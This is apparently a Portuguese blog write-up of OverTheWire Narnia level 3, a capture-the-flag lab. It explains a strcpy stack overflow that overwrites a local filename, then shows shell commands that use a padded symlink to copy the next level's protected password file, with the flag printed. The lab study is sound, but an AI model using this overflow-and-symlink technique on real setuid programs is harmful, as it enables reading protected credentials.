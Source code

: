 ```yaml
---
layout: default
title: Level 3 - Corrompendo variáveis locais na stack [OverTheWire CTF – Narnia] write-up
date: 2017-01-07 15:55
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
</ul>

Dando seguimento a série de write ups do <a href="http://overthewire.org/wargames/narnia/">Narnia</a>, chegou a hora de exploitar o level3.

```
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

Ele pega o primeiro argumento como o caminho para um arquivo e envia o conteúdo desse arquivo para <a href="https://pt.wikipedia.org/wiki//dev/null">/dev/null</a>? Não parece um programa muito útil.

Antes de qualquer análise, pensei que seria óbvio que, por ter permissões de narnia4, narnia3, de alguma forma, iria ler o conteúdo de <strong>/etc/narnia_pass/narnia4</strong> e nos passar ao invés de jogar em /dev/null e não ajudar ninguém.

Mas como o código fonte está bem perto de nós, vamos observa-lo e descobrir se há alguma forma de explorar esta habilidade de leitura de arquivos.

<script src="https://gist.github.com/anonymous/2978f3a6b1db2a77494d01c58de34384.js"></script>

Nada complexo. Mas vamos por partes.

```
int  ifd,  ofd;
char ofile[16] = /dev/null;
char ifile[32];
char buf[32];
```

As duas primeiras variáveis do tipo inteiro declaradas em main são <strong>ifd</strong> e <strong>ofd</strong>. Como o sugestivo nome indica, servem como <a href="https://en.wikipedia.org/wiki/File_descriptor">file descriptors</a> tanto para o arquivo de entrada, quanto para o de saída.

Na segunda linha vemos um vetor de caracteres chamado <strong>o</strong><del datetime="2017-01-07T14:35:02+00:00">utput</del><strong>file</strong> que guarda o valor "/dev/null". É bem óbvio a razão para a existência do mesmo.

Na terceira, <strong>i</strong><del datetime="2017-01-07T14:35:02+00:00">nput</del><strong>file</strong> é mais um vetor de caracteres, com espaço para 32 dos mesmos, que não é inicializado. É nessa variável que mais tarde o código guardará o nome do arquivo de entrada, ou seja, nosso argumento para o programa.

A sexta e última variável declarada na última linha do código acima é outro vetor de caracteres chamado <strong>buf</strong>. Ele vai ser usado para guardar o conteúdo do arquivo de entrada e depois escrever este conteúdo no arquivo de saída.

Logo depois das declarações de variáveis, há um simples if que verifica se algum argumento foi passado.

```
    if(argc != 2){
        printf(usage, %s file, will send contents of file 2 /dev/null\n,argv[0]);
        exit(-1);
    }
```

A parte seguinte do código usa a função amiga dos buffer overflow e inimiga dos dados guardados na stack, <strong>strcpy</strong>, que sem nenhum cuidado vai copiar argv[1] direto para ifile. E, depois de fazer essa operação perigosa, usa os file descriptors para checar se há permissão de escrita e leitura em ofile, e leitura em ifile.

```
     /* open files */
     strcpy(ifile, argv[1]);
     if((ofd = open(ofile,O_RDWR)) 0 ){
         printf(error opening %s\n, ofile);
         exit(-1);
     }
     if((ifd = open(ifile, O_RDONLY)) 0 ){
         printf(error opening %s\n, ifile);
         exit(-1);
     }
 ```

Para finalizar, a última parte da função lê o ifile e copia o conteúdo para buf e logo depois escreve de buf para ofile. Fechando os arquivos logo depois.

```
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf(copied contents of %s to a safer place... (%s)\n,ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
    }
 ```

Depois de compreender todo o código, pareceu que para ganhar a flag bastava estourar ifile passando um argumento do mal que executasse /bin/sh assim como foi feito no <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">último chall</a>. Sei bem que não faria sentido que dois challs seguidos tivessem a mesma resolução, <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/leviathan/">mas já aconteceu coisa parecida antes</a>, então não custava tentar.

Mas essa ideia logo se mostrou impossível assim que mandei um checksec com o binário carregado no gdb aprimorado pelo peda.

```
narnia3@melinda:/tmp/2017$ gdb -q /narnia/narnia3
Reading symbols from /narnia/narnia3...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

O bit NX, que deriva da expressão em inglês No eXecute, é uma tecnologia usada em alguns processadores e sistemas operacionais que separa de modo rígido as áreas de memória que podem ser usadas para execução de código daquelas que só podem servir para armazenar dados. Ele é usada com propósitos de segurança.

Uma área da memória que esteja marcada com o atributo NX pode ser usada somente para guardar dados, então quaisquer instruções que estejam nela não serão executadas. A técnica serve para prevenir certos tipos de ataques feitos por malwares, quando o programa malicioso insere instruções na área de dados de outro programa, tentando que elas sejam executadas a partir de lá. Esse tipo de ataque é chamado de buffer overflow.

<a href="https://pt.wikipedia.org/wiki/Bit_NX">https://pt.wikipedia.org/wiki/Bit_NX</a></blockquote>

Isso significa que explorar o espaço da stack para guardar um shellcode e tentar executa-lo não irá funcionar.

E agora?

Em outros write ups já falei sobre a famigerada stack. Se você não faz ideia do que seja, recomendo que leia o write up do <a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">level 0</a> do próprio narnia que acredito ter conteúdo suficiente para que você me acompanhe. Mas, como sempre faço, vou deixando links pelo meio do post e te dando a ideia de usar o <a href="https://duckduckgo.com/">Google</a> para ir tirando dúvidas.

No ínicio do processo, a função main vai ser executada e jogar suas variáveis na stack:

<img class="size-full wp-image-1410" src="https://brenn0.files.wordpress.com/2017/01/narnia3_1.png" alt="Um lindo desenho." width="147" height="147" />

Como sabemos, as variáveis não inicializadas apenas terão espaço reservado, por isso fiz referência a elas pelo nome e, no caso de ofile, usei seu valor "/dev/null".

E para não ficar apenas com essa abstração horrível em forma de desenho mais horrível ainda, te recomendo <a href="https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames">este link</a> para que entendas bem melhor do que estou e continuarei falando.

Acredito que você se lembre de quando falei de strcpy. Na 22º linha do código do chall, seja lá qual for o tamanho do argumento que passarmos, ele será copiado para o espaço reservado para ifile. E se este argumento tiver mais de 32 caracteres, os dados irão invadir o espaço de ofile (e o que mais vinher depois, como ofd, ifd...).

Sabendo disso você até pode resolver o chall sozinho. Vá lá e só volte aqui para comparar soluções.

Tendo o poder de corromper o valor de ofile guardado no stack, a primeira ideia é a de modificar esse valor para um arquivo válido e sob nosso controle.

Tomei a liberdade fazer uma pequena alteração do código do chall só para ver isso acontecendo de forma mais prática, observe as inserções na linha 21 e 27:

<script src="https://gist.github.com/anonymous/b78a2c589773cd2c2db5034257e38441.js"></script>

Agora compilando e executando:

```
suamae@yourbox:~/tmp$ gcc narnia3.c -o narnia3
suamae@yourbox:~/tmp$ ./narnia3 `python -c 'print B*32 + ownded'`
Antes: /dev/null
error opening BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBownded
Depois: ownded
```

Exatamente o comportamento esperado.

Exploitation time!

Criei uma pasta em /tmp e dentro dela criei um link simbólico para /etc/narnia_pass/narnia4. O nome desse link era formado pelos 32 B's necessários para preencher todo o espaço de ifile + flag (que é o nome do arquivo que também criei para que o processo escrevesse a flag).

```
narnia3@melinda:~$ cd /narnia
narnia3@melinda:/narnia$ mkdir /tmp/rddi
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/rddi/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag
narnia3@melinda:/narnia$ cd /tmp/rddi
narnia3@melinda:/tmp/rddi$ touch flag
narnia3@melinda:/tmp/rddi$ /narnia/narnia3 `python -c 'print B*32 + flag'`
copied contents of BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag to a safer place... (flag)
narnia3@melinda:/tmp/rddi$ cat flag
c2ljaw==
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@melinda:/tmp/rddi$
```
